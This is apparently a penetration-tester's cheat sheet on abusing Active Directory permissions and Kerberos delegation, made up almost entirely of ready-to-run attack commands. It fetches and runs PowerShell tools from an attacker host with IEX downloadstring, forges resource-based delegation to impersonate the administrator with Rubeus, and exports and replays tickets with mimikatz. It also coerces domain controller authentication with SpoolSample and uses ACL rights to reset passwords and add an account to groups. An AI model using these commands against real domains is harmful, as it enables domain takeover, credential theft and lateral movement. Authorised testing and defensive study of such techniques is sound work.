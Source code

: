 # Abusing ACLs

## Generic Write - Computer

### Kerberos Resource-based Constrained Delegation: Computer Object Takeover

Download powermad to create computer object

```
PS C:\Users> IEX(new-object net.webclient).downloadstring('http://192.168.X.Y/Powermad.ps1')
PS C:\Users> New-MachineAccount -MachineAccount myComputer -Password $(ConvertTo-SecureString 'h4x' -AsPlainText -Force)
```

Create a new raw security descriptor

```
PS C:\Users> IEX(new-object net.webclient).downloadstring('http://192.168.X.Y/PowerView.ps1')
PS C:\Users> $sid =Get-DomainComputer -Identity myComputer -Properties objectsid | Select -Expand objectsid
PS C:\Users> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
PS C:\Users> $SDbytes = New-Object byte[] ($SD.BinaryLength)
PS C:\Users> $SD.GetBinaryForm($SDbytes,0)
```

Applying the security descriptor bytes to the target

```
PS C:\Users> Get-DomainComputer -Identity <GENERIC WRITE COMPUTER> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
PS C:\Users> $RBCDbytes = Get-DomainComputer <GENERIC WRITE COMPUTER> -Properties 'msds-allowedtoactonbehalfofotheridentity'| select -expand msds-allowedtoactonbehalfofotheridentity
PS C:\Users> $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0
```

Confirm Security descriptor is the same as the fake machine created

```
PS C:\Users> $Descriptor.DiscretionaryAcl
PS C:\Users> convertfrom-sid <SID from Descriptor>
```

Generate RC4 Hash

```
PS C:\Users> .\Rubeus.exe hash /password:h4x /user:myComputer$ /domain:Test.Domain
```

Impersonation

```
PS C:\Users> .\Rubeus.exe s4u /user:myComputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/WriteComputer.Test.Domain /ptt
```

Confirm access to target computer

```
PS C:\Users> dir \\WriteComputer.Test.Domain\c$
```

Lateral Movement

```
PS C:\Users> .\psexec.exe -accepteula \GenericWrite.Test.Domain powershell
```

## Unconstrained Delegation

* forwardable tgt
* if used and compromise web service can steal all users tgts

### Enumeration

* trusted for delegation

```
Get-DomainComputer -unconstrained
```

* must compromise computer in question
* or compromise application on machine
* once compromised load up mimikatz

```
privilege::debug
load kiwi
kiwi_cmd sekurlsa::tickets /export
```

* copy the admin or user b64 .kirby ticket to a file
* remove new lines and spaces from the copy

```
echo -n $(cat admin.kirbi) | tr -d " " > admin2.kirbi
```

* Dont use kiwi\_cmd to load... normal meterpreter will work (kiwi failed on me)

```
kerberos_ticket_use /home/kali/admin2.kirbi
or
mimikatz # kerberos::ptt admin2.kirbi
```

* Now you can access resources that the user has access to

## Constrained Delegation

Hunting for user accounts that have kerberos constrained delegation enabled:

{% code title="attacker@target" %}
```
Get-NetUser -TrustedToAuth
```
{% endcode %}

Monitor for TGTs from the Domain Controller

```
Rubeus.exe monitor /interval:5 /filteruser:CDC01$
```

confirm printer spools is accessible

```
dir \\dc01\pipe\spoolss
```

using a second command prompt we’ll use  [https://github.com/leechristensen/SpoolSample](https://github.com/leechristensen/SpoolSample)

```
SpoolSample.exe [target] [capturesvr]
or
.\Rubeus.exe tgtdeleg
```

Request TGS for impersonated user

```
rubeus.exe ptt /ticket:oIFIjCCBR6g....  /impersonateuser:administrator /domain:offense.local /msdsspn:cifs/dc01.fake.domain /dc:dc01.fake.domain /ptt
```

Confirm ticket is load

```
klist
```

confirm access to dc

```
dir \\dc0.fake.domain\c$
```

## GenericAll User

Check to see AD Rights for Generic ALl

```
Get-ObjectAcl -SamAccountName <CURRENT ACCOUNT> -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}  
```

With all writes, you can change the password of the targeted user

```
net user TARGETME passwordreset123 /domain
```

## GenericAll Group

Check for groups with permissions to&#x20;

```csharp
Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $.SecurityIdentifier.value) -Force; $} | Foreach-Object {if ($.Identity -eq $("$env:UserDomain$env:Username")) {$}}
```

If one of them has GenericAll in ActiveDirectoryRights, you can add a user to it

```
net group "TARGET GROUP" evil_account /add /domain
```

## ForceChangePassword

If we have `ExtendedRight` on `User-Force-Change-Password` object type, we can reset the user's password without knowing their current password:

```
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

```csharp
Set-DomainUserPassword -Identity TARGETUSER -Verbose
```
